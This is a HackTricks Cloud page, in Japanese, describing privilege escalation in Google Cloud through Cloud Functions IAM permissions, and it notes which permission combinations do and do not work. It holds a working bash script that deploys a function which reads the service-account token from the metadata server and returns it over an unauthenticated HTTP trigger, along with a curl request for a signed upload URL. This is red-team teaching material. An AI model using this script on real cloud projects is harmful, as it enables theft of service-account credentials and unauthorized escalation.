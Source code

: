 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks) および [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) githubリポジトリ。

</details>
{% endhint %}

## cloudfunctions

Cloud Functionsに関する詳細情報:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

これらの権限を持つ攻撃者は、**任意の（悪意のある）コードを持つ新しいCloud Functionを作成し、それにService Accountを割り当てることができます**。その後、メタデータからService Accountトークンを漏洩させて権限をエスカレートします。\
関数をトリガーするためのいくつかの権限が必要になる場合があります。

この方法のエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py)と[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py)で見つけることができ、事前構築された.zipファイルは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions)で見つけることができます。

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

これらの権限を持つ攻撃者は、**関数のコードを変更し、アタッチされたサービスアカウントを変更することさえできます**。トークンを漏洩させることを目的としています。\
関数をトリガーするためのいくつかの権限が必要になる場合があります。
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--trigger-http \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--allow-unauthenticated

# If you don't have permissions to change the IAM policy, the "--allow-unauthenticated" will just fail and do nothing

# Get SA tokin calling the new function code
gcloud functions call <cloudfunction-name>
```
この方法のエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py)で見つけることができます。

### `cloudfunctions.functions.sourceCodeSet`

この権限を持っていると、**関数バケットにファイルをアップロードするための署名付きURLを取得できます（ただし、関数のコードは変更されません。更新する必要があります）**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

攻撃者の視点からこの権限だけがどれほど有用かは不明ですが、知っておくと良いでしょう。

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

前述の**`.update`**または**`.create`**権限を自分に付与してエスカレートします。

### `cloudfunctions.functions.update`

**`cloudfunctions`**権限のみを持っていても、**`iam.serviceAccounts.actAs`**がないと関数を更新することはできません。**したがって、これは有効なPRIVESCではありません。**

### バケット書き込み権限

Cloud Functionsのコードが保存されているバケットに対する**書き込み権限**を持つ攻撃者が、`function_code.zip`を**上書きしてコードを変更**し、関数に**任意のコードを実行**させることができると考えるかもしれません。

{% hint style="success" %}
**しかし、これは事実ではありません。バケット内のコードを上書きするだけでは、実行されるコードは変更されません。**
{% endhint %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hackingを学び、練習しましょう:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hackingを学び、練習しましょう: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしましょう。
* **ハッキングトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}
